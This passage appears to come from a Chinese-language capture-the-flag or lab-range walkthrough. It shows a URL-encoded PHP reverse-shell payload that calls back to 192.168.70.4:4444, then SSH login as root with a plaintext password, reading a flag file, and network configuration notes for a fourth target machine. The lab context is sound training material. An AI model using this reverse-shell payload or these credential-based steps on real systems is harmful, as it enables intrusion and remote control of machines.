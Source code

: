 ```bash
load=/uploaded_images/xxx.png&continue=continue&xxx=php+-r+'$sock%3dfsockopen("192.168.70.4",4444)%3bexec("/bin/bash+<%263+>%263+2>%263")%3b'
```



## ssh

> root / Root123#@!

```bash
ssh root@192.168.70.46
Root123#@!

cat /root/flag.txt
```

### flag

> flag : {Lysys_2024_!$#@}

# 靶机4

## 靶场环境配置

### 外网linux服务器

> 10.223.82.21
>
> 192.168.8.88
>
> 域名：www.cf1.com

### 连接配置

#### ip

```bash
10.223.47.114
255.255.255.0
10.223.47.254
```



```bash
vim /etc/network/interfaces
auto eth1
iface eth1 inet static
address 10.223.47.250
netmask 255.255.255.0
gateway 10.223.47.254
```
